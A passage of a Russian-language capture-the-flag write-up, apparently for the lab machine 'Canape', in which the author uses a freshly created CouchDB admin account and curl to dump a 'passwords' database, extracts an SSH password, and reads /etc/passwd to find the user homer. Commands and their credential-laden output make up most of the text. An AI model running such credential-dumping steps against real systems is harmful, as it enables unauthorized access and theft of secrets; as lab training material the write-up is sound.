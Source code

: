 Теперь для просмотра защищенного содержимого БД достаточно в теле запроса авторизоваться под только что созданным пользователем так:
```text
www-data@canape:/$ curl -X GET http://3V1LH4CK3R:qwerty123@127.0.0.1:5984/passwords
{"db_name":"passwords","update_seq":"46-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkR2PoiQFIJlkD1bHik-dA0hdPGF1CSB19QTV5bEASYYGIAVUOp8YtQsgavcTo_YARO39rER8AQRR-wCiFuhetiwA7ytvXA","sizes":{"file":222462,"external":665,"active":1740},"purge_seq":0,"other":{"data_size":665},"doc_del_count":0,"doc_count":4,"disk_size":222462,"disk_format_version":6,"data_size":1740,"compact_running":false,"instance_start_time":"0"}
```

Или так:
```text
www-data@canape:/$ curl -X GET --user '3V1LH4CK3R:qwerty123' http://127.0.0.1:5984/passwords
{"db_name":"passwords","update_seq":"46-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkR2PoiQFIJlkD1bHik-dA0hdPGF1CSB19QTV5bEASYYGIAVUOp8YtQsgavcTo_YARO39rER8AQRR-wCiFuhetiwA7ytvXA","sizes":{"file":222462,"external":665,"active":1740},"purge_seq":0,"other":{"data_size":665},"doc_del_count":0,"doc_count":4,"disk_size":222462,"disk_format_version":6,"data_size":1740,"compact_running":false,"instance_start_time":"0"}
```

Таким образом, попросим показать все, что содержится в базе данных `passwords`:
```text
www-data@canape:/$ curl -X GET http://3V1LH4CK3R:qwerty123@127.0.0.1:5984/passwords?include_docs=true
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"},"doc":{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"},"doc":{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"},"doc":{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"},"doc":{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}}
]}
```

Админ негодует :rage:

Нас интересует ssh-креды, а именно запись с id `739c5ebdf3f7a001bebb8fc4380019e4`:
```text
www-data@canape:/$ curl -X GET http://3V1LH4CK3R:qwerty123@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
```

Смотрим имя пользователя:
```text
www-data@canape:/$ cat /etc/passwd
...
homer:x:1000:1000:homer,,,:/home/homer:/bin/bash
...
```
